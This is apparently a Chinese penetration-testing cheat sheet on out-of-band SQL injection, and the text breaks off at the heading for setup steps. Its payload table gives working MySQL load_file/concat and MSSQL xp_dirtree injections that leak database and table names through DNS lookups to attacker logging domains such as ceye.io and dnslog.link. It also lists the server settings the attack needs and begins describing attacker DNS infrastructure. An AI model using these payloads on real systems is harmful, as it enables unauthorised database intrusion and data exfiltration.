 

# 0x04 数据库payload

| load_file(concat('\\\\\\\\',(select   database()),'.2gln5s.ceye.io\\abc')) | 读取数据库                             |
| ------------------------------------------------------------ | -------------------------------------- |
| ?id=1'   and if((select load_file(concat('\\\\',(select   database()),'.xxxx.ceye.io\\abc'))),1,1)--+ |                                        |
| ?id=1'   and if((select load_file(concat('\\\\',(select table_name from   information_schema.tables where table_schema='security' limit   0,1),'.test.2gln5s.ceye.io\\abc'))),1,1)--+ |                                        |
| DECLARE @host varchar(1024);                                 | 注册一个名为@host的变量，类型为varchar |
| SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.dnslog.link'; | db_name()然后转换成varchar类型         |
| EXEC('master..xp_dirtree "[\\'+@host+'\foobar$](file://'+@host+'/foobar$)"'); | 远程主机的foobar$目录                  |

注入时候需要注意设置

| my.ini | secure-auth=0secure_file_priv   = "" |
| ------ | ------------------------------------ |
|        |                                      |

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3nborwd6j2084036aa6.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3ncbzpjcj20ta09610g.jpg)

# 0x05 OOB信息外带漏洞

## 一、简介

**带外数据（OOB）是一种通过其他传输方式来窃取数据的技术（例如利用DNS解析协议和电子邮件）。OOB技术通常需要易受攻击的实体生成出站TCP/UDP/ICMP请求，然后允许攻击者泄露数据。OOB攻击的成功基于出口防火墙规则，即是否允许来自易受攻击的系统和外围防火墙的出站请求。而从域名服务器（DNS）中提取数据，则被认为是最隐蔽有效的方法。因此，本文也将重点介绍有关DNS泄露数据的技巧。**

> **引发DNS请求**
>
> 成功利用DNS从有漏洞的数据库中渗出数据的前提条件是，DBMS中有可用的能直接或间接引发DNS解析过程的子程序。 然后这类的子程序被攻击者利用，作为攻击的媒介。
>
> 任何可以接受网络地址的函数是最有可能被利用来进行这种攻击的。

**注：**出于本文目的，我们尽可能的将用于受害者的payloads以最小依赖性和权限保持为单行。

## 二、设置：DNS/OOB查询基础架构

### **1. 先决条件**

> 1. 具有静态IP地址的公共服务器：出于演示目的，我们将使用由Google云平台（GCP）提供的VPS服务。
>
> 2. 注册域：访问已注册的域设置，将权限委派给域名服务器。这里我们将使用oob.dnsattacker.com进行DNS解析。

### **2. 具体步骤**
